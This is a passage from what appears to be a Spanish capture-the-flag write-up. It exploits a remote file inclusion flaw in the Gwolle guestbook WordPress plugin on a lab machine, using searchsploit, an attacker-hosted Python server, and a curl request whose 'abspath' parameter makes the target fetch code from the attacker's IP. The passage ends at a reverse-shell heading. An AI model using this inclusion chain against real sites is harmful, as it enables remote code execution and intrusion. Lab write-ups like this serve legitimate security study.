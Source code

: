 
### Buscando un exploit con searchsploit {-}

```bash
searchsploit gwolle
```

Aqui vemos que existe un exploit para Gwolle que no permitte hacer Remote File Inclusion. Analizamos el exploit para saber lo que se puede hacer.

```bash
searchsploit -x 38861
```

Podemos ver que un parametro GET llamado **abspath** que no esta sanitizado correctamente antes de estar utilizado por la funcion require de PHP.
Un atacante podria incluir de manera remota un fichero llamado 
```bash
 wp-load.php 
```
 para ejecutar su contenido en la web vulnerable. Ademas el exploit 
nos muestra sobre que ruta tendriamos que ejecutar un metodo get para ejecutar el comando


```bash
 http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website] 
```


La idea aqui seria de comprobar si esto es verdad.

### Comprobamos la efectividad del exploit {-}

1. Montamos un servidor web en la maquina de atacante

    ```bash
    python3 -m http.server
    ```

1. Lanzamos una peticion GET sobre el url que el exploit nos da

    ```bash
    curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
    ```

Aqui podemos comprobar que la maquina victima no esta enviando una peticion get a nuestro servidor web creado en python. A demas se puede ver que
la maquina victima esta intentando buscar un fichero 
```bash
 wp-load.php 
```
 que por el momento no existe.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Entablar una reverse shell desde la vulnerabilidad Gwolle {-}
